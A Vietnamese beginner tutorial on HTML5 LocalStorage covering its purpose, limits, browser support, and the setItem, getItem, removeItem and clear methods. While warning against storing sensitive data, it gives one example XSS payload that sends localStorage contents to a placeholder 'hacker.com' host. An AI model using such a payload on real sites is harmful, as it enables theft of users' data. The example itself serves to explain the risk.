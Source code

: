 # Local Storage là gì?
Tương tự như cookie, HTML5 hỗ trợ LocalStorage là một loại lưu trữ web cho phép các trang web và ứng dụng Javascript lưu trữ và truy cập dữ liệu ngay trong trình duyệt mà không có ngày hết hạn. 
Hay dữ liệu được lưu trữ trong trình duyệt sẽ tồn tại ngay cả sau khi cửa sổ trình duyệt đã bị đóng, Dữ liệu chỉ mất khi bạn sử dụng chức năng clear history của trình duyệt, hoặc bạn sử dụng localStorage API để xóa
# Hạn chế của LocalStorage
- Thông tin trong LocalStorage chỉ được lưu trữ trong trình duyệt của người dùng (Không lưu trên server) , localStorage được sandbox theo domain name của ứng dụng web. Hay nói cách khác mỗi trang web sẽ có 1 LocalStorage riêng và không thể truy cập đến LocalStorage khác. Đây có thể xem là ưu điểm cũng có thể là nhược điểm của LocalStorage.
- Không nên lưu các dữ liệu nhạy cảm của người dùng vào LocalStorage:
LocalStorage chỉ được lưu ở phía client nên có thể có 1 số lỗi bảo mật mà hacker có thể tận dụng để lấy ra dữ liệu của người dùng từ Local Storage như Cross Site Scripting (XSS), DNS spoofing attacks.
VD: Thông qua field input của trang, hacker có thể nhập vào 1 đoạn mã script như `<script>window.location="http://hacker.com?cookie=" + localStorage.getItem('sensitive-data');</script>` Từ đó có thể lấy ra dữ liệu của người dùng được lưu trong LocalStorage.
- Các trình duyệt hỗ trợ:

    | Trình duyệt |  Chrome (4.0+)  |  Firefox (3.5)  |  Safari (4.0)  |  IE (8.0+) 
    | -------- | -------- | -------- | -------- | -------- | -------- |
    | LocalStorage | 10MB | 10MB | 5MB  | 10MB

        - Ngoài ra ta có thể kiểm tra trình duyệt có hỗ trợ localStorage bằng cách:
        ```
        if (storageAvailable('localStorage')) {
            // Trình duyệt này hỗ trợ LocalStorage
        }
        else {
            // :( trình duyệt không hỗ trợ LocalStorage
        }
        ```
# Kiểm tra LocalStorage
Thông qua dev tool ta có thể vào tab Application và kiểm tra Local Storage của trang hiện tại ( Chrome)
![](https://images.viblo.asia/63c4c5aa-6f3a-4a21-a87c-1eeb94bf3f79.png)
# Sử dụng LocalStorage với JavaScript
- Để sử dụng LocalStorage, ta sẽ có 4 method chính:
setItem():  Gán dữ liệu vào LocalStorage
getItem(): Lấy ra dữ liệu từ LocalStorage
removeItem(): Xóa dữ liệu khỏi LocalStorage
clear(): Xóa toàn bộ dữ liệu của LocalStorage
### 1. setItem()
- Để gán 1 biến nào đó vào LocalStorage ta chỉ cần dùng lệnh: `window.localStorage.setItem('key', 'value')`
- Với key là tên biến để ta truy xuất và value là giá trị biến truyền vào.
- Chú ý: LocalStorage chỉ cho phép chúng ta lưu biến với kiểu String, vì vậy để lưu Object hoặc Array ta có thể convert sang Json.
```
localStorage.setItem('list_departments', JSON.stringify([1,2]))
```
- Khi cần sử dụng chỉ cần JSON.parse() để convert về giá trị ban đầu.
### 2. getItem()
- Để lấy ra được dữ liệu trong localStorage của trình duyệt ta dùng method:
`window.localStorage.getItem('key');`
### 3. removeItem()
- Để xóa 1 item khỏi localStorage ta sẽ sử dụng method: removeItem()
```
window.localStorage.removeItem('key')
```
### 4. clear()
- Để xóa toàn bộ các dữ liệu trong LocalStorage của domain hiện tại.
```
window.localStorage.clear();
```
# Tổng kết:
Thông qua bài viết mình mong rằng mọi người có thể có cái nhìn tổng quát về Local Storage cũng như các kiến thức cơ bản để có thể sử dụng Locak Storage đúng cách.
M.n nếu thắc mắc, góp ý hoặc chia sẽ thêm những kiến thức liên quan có thể comment bên dưới nhé. Cảm ơn các bạn đã đọc.